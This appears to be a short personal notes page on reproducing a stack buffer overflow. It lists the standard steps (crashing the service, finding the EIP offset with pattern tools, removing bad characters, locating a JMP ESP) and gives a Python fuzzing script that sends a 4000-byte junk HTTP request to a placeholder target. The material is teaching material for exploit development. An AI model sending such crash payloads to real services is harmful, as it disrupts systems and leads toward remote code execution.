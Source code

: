 ```yaml
---
layout: page
title: Steps to Reproduce
permalink: /notes/security/BufferOverflow/steps-to-reproduce
notes_section: Security
notes_category: Buffer Overflow
notes_label: Steps to Reproduce
notes_order: 2
---
```


## Steps to reproduce

1. Crash the application
2. Find EIP location
3. Confirm EIP location
4. Find bad chars
5. Remove bad chars from shellcode
6. Find jmpesp value

```
#!/bin/python

import socket

s=socket.socket()
s.connect(("<target ip>", <target port>))
junk=A*4000

m1="GET"
m2="HTTP/1.1\r\n\r\n"
m=m1+junk+m2

s.send(m)

print s.recv(100)

s.close()
```


1. Crash the application by sending large number of random characters
2. Use pattern_create.rb -l <no. at which the application crashed>
3. Note the EIP value
4. Use the EIP value in pattern_offset.rb -q
5. You will get the exact offset value.
6. Add extra characters to overflow EIP
7. Check whether the EIP value changes or not
8. The EIP value must change and remain.
9. Send badchars to the target and identify the bad chars.
10. Identify and note the "jmpesp value"
